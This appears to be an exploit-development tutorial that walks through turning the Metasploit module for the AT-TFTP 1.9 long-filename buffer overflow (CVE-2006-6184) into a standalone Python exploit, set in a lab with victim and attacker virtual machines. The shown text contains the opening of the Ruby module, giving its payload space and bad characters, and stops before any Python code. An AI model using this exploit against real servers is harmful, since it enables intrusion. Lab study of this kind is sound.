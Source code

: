 ```yaml
---
description: >-
  This is a python-based standalone exploit for CVE-2006-6184. This exploit
  triggers a stack-based buffer overflow in Allied Telesyn TFTP Server (AT-TFTP)
  1.9, and possibly earlier.
---
```


# Converting Metasploit Module to Stand Alone

Sometimes you might want to have a stand alone exploit, but the only option out there is a Metasploit module. Sure you could always just fire up Metasploit and use it.

**Requirements:**  
Windows XP – SP3 Virtual Machine \(Victim\).  
Kali Linux Virtual Machine \(Attacker\).  
Allied Telesyn TFTP Server 1.9 \(Available [here](http://netsec.ws/wp-content/downloads/at-tftpd19.exe)\).  
****

First open up an existing Metasploit module that is similar to what we’re trying to accomplish. This being a exploit for the Windows operating system, poke around the MSF installation folder under **/usr/share/metasploit-framework/modules/exploits/windows/tftp/attftp\_long\_filename.rb** and you’ll have plenty. We’ll use this as our template. Here’s what our template file would look like:  
****

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Allied Telesyn TFTP Server 1.9 Long Filename Overflow',
      'Description'    => %q{
          This module exploits a stack buffer overflow in AT-TFTP v1.9, by sending a
        request (get/write) for an overly long file name.
      },
      'Author'         => [ 'aushack' ],
      'References'     =>
        [
          ['CVE', '2006-6184'],
          ['OSVDB', '11350'],
          ['BID', '21320'],
          ['EDB', '2887']
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
```